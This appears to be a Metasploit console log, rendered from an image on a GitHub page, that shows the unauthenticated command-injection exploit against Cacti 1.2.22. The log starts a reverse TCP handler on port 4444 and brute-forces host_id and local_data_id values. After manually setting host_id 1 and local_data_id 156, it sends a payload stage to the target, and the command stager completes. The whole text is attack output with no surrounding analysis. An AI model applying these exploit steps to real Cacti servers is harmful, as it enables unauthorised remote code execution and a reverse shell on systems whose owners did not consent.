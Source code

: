 ```

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[*] Performing request 25...
[*] Performing request 50...
[*] Performing request 75...
[*] Performing request 100...
[*] Enumerating local_data_id values for host_id 2
[*] Performing request 125...
[*] Performing request 150...
[*] Performing request 175...
[*] Performing request 200...
[*] Enumerating local_data_id values for host_id 3
[*] Performing request 225...
[*] Performing request 250...
[*] Performing request 275...
[*] Performing request 300...
[*] Enumerating local_data_id values for host_id 4
[*] Performing request 325...
[*] Performing request 350...
[*] Performing request 375...
[*] Performing request 400...
[*] Enumerating local_data_id values for host_id 5
[*] Performing request 425...
[*] Performing request 450...
[*] Performing request 475...
[*] Performing request 500...
[!] Identified 15 host_id - local_data_id combination(s) that may be exploitable, but could not be positively identified as such:
        host_id: 1 - local_data_id: 156
        host_id: 1 - local_data_id: 157
        host_id: 1 - local_data_id: 158
        host_id: 1 - local_data_id: 164
        host_id: 1 - local_data_id: 166
        host_id: 1 - local_data_id: 167
        host_id: 1 - local_data_id: 168
        host_id: 1 - local_data_id: 169
        host_id: 1 - local_data_id: 170
        host_id: 1 - local_data_id: 173
        host_id: 1 - local_data_id: 174
        host_id: 1 - local_data_id: 175
        host_id: 1 - local_data_id: 176
        host_id: 1 - local_data_id: 177
        host_id: 1 - local_data_id: 178
[*] You can try to exploit these by manually configuring the HOST_ID and LOCAL_DATA_ID options
[-] Exploit aborted due to failure: no-target: Failed to identify an exploitable host_id - local_data_id combination.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > set host_id 1
host_id => 1
msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > set local_data_id 156
local_data_id => 156
msf exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.91.195:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Sending stage (1017704 bytes) to 10.18.0.3
[*] Command Stager progress - 100.00% done (773/773 bytes)
```